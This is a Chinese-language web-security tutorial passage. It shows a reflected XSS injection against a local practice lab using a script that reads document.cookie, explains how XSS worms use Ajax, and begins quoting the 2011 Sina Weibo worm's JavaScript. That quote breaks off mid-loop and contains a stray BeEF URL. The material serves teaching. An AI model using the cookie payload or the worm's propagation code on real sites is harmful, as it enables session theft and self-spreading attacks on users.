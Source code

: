 可以看到地址栏里的链接是 `http://localhost:8765/vul/xss/xss_reflected_get.php?message=kobe&submit=submit`；因为输入框有限制，直接将 kobe 改成 `<script>alert(document.cookie)</script>`，然后在键盘上按回车，效果如下：

![](assets/QQ_1731311108519.png)

这样就成功通过 JS 读取里用户的 cookie。

### 蠕虫攻击

面我介绍了 Samy 蠕虫，但并没有谈到XSS 蠕虫的实现技术。XSS 蠕虫的实现正是得益于Ajax 技术的出现，而后者正是 Web2.0 的标志性技术。

Ajax（Asynchronous JavaScript and XML，异步 JavaScript 和 XML）是指一种**创建交互式网页应用的网页开发技术**。这个概念比较抽象，具体讲就是在我们浏览网页，做一些操作时，可以减少浏览器的一些页面重绘操作，避免出现页面抖动、闪现之类的不适体验。这也正是 Web2.0 带来的改变。

Ajax 中的核心技术就是 XMLHttpRequest，它允许 JavaScript 脚本与服务器进行通信，在不刷新页面的情况下，向服务器发送请求或是接收服务器的响应数据。

2011年 6 月 28 日，新浪微博遭受 XSS 蠕虫的攻击，很多受害者被迫发布带有攻击链接的私信和微博。这些消息都带有一定的诱惑性，其他用户点击后也会此影响。受害者在感染后，都会自动关注一位名为“hellosamy”的微博用户（估计是效仿 Samy 蠕虫），然后向关注受害者的用户发送含有同样链接地址的私信，并发布含攻击链接的微博。得益于这种传播方式，在16 分钟内病毒就感染了33000 个用户。

我们来分析下新浪微博的 XSS 蠕虫代码：

```js
// 创建 XMLHttp 对象用于收发请求
function createXHR(){ 
    return window.XMLHttpRequest?
    new XMLHttpRequest():
    new ActiveXObject("Microsoft.XMLHTTP");
}

function getappkey(url){
    xmlHttp = createXHR();
    xmlHttp.open("GET",url,false); //获取 AppKey 不采用异步执行,等待请求返回 
    xmlHttp.send();
    result = xmlHttp.responseText;
    id_arr = '';
    // 正则匹配出 AppKey 数组,包含每个被收听用户的 uid 
    id = result.match(/namecard=\"true\" title=\"[^\"]*/g);
         https://beefproject.com/
    for(i=0;i<id.length;i++){
        sum = id[i].toString().split('"')[3];  //重新提取整理
        id_arr += sum + '||';
```